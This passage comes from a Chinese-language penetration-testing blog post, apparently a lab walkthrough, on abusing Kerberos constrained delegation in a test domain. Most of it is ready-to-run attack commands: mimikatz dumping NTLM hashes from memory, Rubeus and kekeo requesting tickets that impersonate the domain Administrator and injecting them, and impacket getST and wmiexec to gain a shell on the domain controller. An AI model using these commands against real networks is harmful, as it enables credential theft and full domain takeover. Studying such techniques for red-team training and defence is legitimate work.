 + 使用mimikatz抓取目标账户的NTLM hash值

  ![hacker-hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/hacker-hash.png)

+ 使用Rubeus申请服务自身可转发的TGT票据

  ```
  Rubeus.exe asktgt /user:hacker /rc4:c2627b0a561748ba79b8eb3c62c6461c /domain:hack.com /dc:DC.hack.com /nowrap
  ```

  ![rubeus-hacker-tgt](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/rubeus-hacker-tgt.png)

+ 利用该票据通过Rubeus的s4u向DC的cifs服务申请TGS票据，并注入内存

  ```shell
  # 使用Rubeus通过S4U2Self协议代表域管理员Administrator请求针对域控LDAP服务的票据，并注入内存
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/DC.hack.com /dc:DC.hack.com /ptt /ticket:base64-tgt
  ```

  ![rubeus-cifs-tgs](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/rubeus-cifs-tgs.png)

+ 在低权限主机上访问DC的cifs服务

  ![attackway2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/attackway2.png)

能够成功访问DC的目录

#### 一些其他的利用手法

和上面的区别在于使用脚本的不同，毕竟能导出票据和注入的工具甚多，稍微了解一下手法，例如使用impacket脚本进行票据的申请

+ 使用impacket中的getST脚本进行申请

  ```shell
  # mimikatz获取机器账户NTLM Hash值
  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
  
  # 使用getST申请服务票据
  python3 getST.py -dc-ip 192.168.30.10 -spn CIFS/DC.hack.com -impersonate Administrator hacker -hashes :c2627b0a561748ba79b8eb3c62c6461c
  
  # 使用票据远程访问
  KRB5CCNAME=Administrator.ccache python3 wmiexec.py -k hack.com/administrator@DC.hack.com -no-pass -dc-ip 192.168.30.10
  ```

  ![getStSHEL](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/getStSHEL.png)

  该方法能直接获取到目标机器的shell,或许会好用

+ 使用kekeo,这里就只贴出来命令了，和rubeus的利用手法几乎一致

  ```shell
  # 请求票据
  kekeo.exe "tgt::ask /user:hacker/domain:hack.com /NTLM:c2627b0a561748ba79b8eb3c62c6461c" "exit"
  
  # 申请administrator权限的票据
  kekeo.exe "tgs::s4u /tgt:tgt-name /user:Administrator@hack.com /service:cifs/DC.hack.com" "exit"
  
  # mimikatz
  mimikatz.exe "kerberos::ptt tgs-name" "exit"
  ```
